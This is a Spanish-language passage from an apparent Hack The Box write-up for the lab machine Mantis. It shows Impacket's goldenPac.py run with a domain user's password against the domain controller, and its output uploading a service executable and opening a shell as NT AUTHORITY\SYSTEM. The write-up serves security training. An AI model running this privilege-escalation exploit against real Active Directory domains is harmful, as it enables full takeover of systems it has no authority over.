 Asi que primero vamos a agregar en nuestro archivo `/etc/hosts` los dominios relacionados con la dirección IP de la máquina:

```bash
❯ cat /etc/hosts
───────┬────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  k4mipc
   4   │ 10.10.10.52 htb.local mantis.htb.local
   5   │ 
   6   │ ::1        localhost ip6-localhost ip6-loopback
   7   │ ff02::1    ip6-allnodes
   8   │ ff02::2    ip6-allrouters
```

```bash
❯ goldenPac.py htb.local/'james:J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file lPDhopUm.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service MYLV on mantis.htb.local.....
[*] Starting service MYLV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

Ya ingresamos a la máquina como el usuario ***nt authority\\system*** y podemos visualizar las flags (user.txt y root.txt).9
